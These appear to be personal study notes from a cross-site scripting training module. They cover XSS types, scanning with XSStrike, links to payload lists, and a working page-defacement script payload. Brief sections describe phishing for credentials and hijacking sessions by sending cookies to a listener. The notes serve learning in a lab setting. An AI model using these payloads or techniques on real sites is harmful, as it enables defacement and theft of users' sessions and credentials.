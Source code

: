# Cross-Site Scripting

Stored - The pinical it is stored on pag and will be run everytime a user visits

Reflected - processed by server and returned to user not stored

Dom based - Only processed on client side

# Discovery

```shell-session
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
```

```shell-session
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```

&#x20;[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) [PayloadBox](https://github.com/payloadbox/xss-payload-list) good resources for payloads

# Defacing

This payload can be used to deface a page

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

# Phishing

Using the defacing method we can craft a malicous page that sends credentials back to us

# Session Hijacking

This was actually pretty fun and the assessment involved a blind XSS injection. Once you found a payload that worked you had to include a script from your machine that sends a cookie to a listening nc port. Cool!

# Skills assesment

This was quite fun and used all parts of the module. You cant use nc for the session because it closes imediatly. php server is better for this,
